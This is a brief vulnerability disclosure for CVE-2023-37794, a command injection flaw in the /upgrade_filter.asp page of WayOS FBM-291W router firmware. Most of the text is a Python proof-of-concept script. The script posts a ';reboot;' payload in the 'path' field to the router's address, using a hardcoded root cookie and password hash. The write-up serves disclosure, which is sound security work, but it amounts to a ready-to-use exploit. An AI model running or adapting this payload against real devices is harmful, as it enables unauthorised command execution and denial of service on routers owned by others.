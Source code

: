# FBM-291W-19.09.11V **Command Injection(CVE-2023-37794)**

## Firmware information

- Manufacturer's address: https://www.wayos.com/
- Firmware download address: https://drive.weixin.qq.com/s?k=ANgAJAcRAAcJQcZsqk#/preview?fileId=s.1970324955538648.649217589iNQ_f.677141204X86O

## Affected version

![1](https://gitee.com/blogyoulin/img/raw/master/images/202307061654721.png)

## Vulnerability details

![image-20230706165555929](https://gitee.com/blogyoulin/img/raw/master/images/202307061655041.png)

In /upgrade_filter.asp, There is command injection

## Poc

```
import requests
from pwn import *

cmd=b"echo success_pwn_it"

#payload=b'http://'+b'A'*0x1000
payload=b';reboot;'

url = "http://192.168.0.1/upgrade_filter.asp"
cookie={"Cookie":"language=zh; userid=root; gw_userid=root,gw_passwd=94B830FE0CCD890946AE1C8318A2BE7B"}
data = {"path": payload}
response = requests.post(url,cookies=cookie,data=data)
#response = requests.post(url,cookies=cookie,data=data)
print(response.text)
```

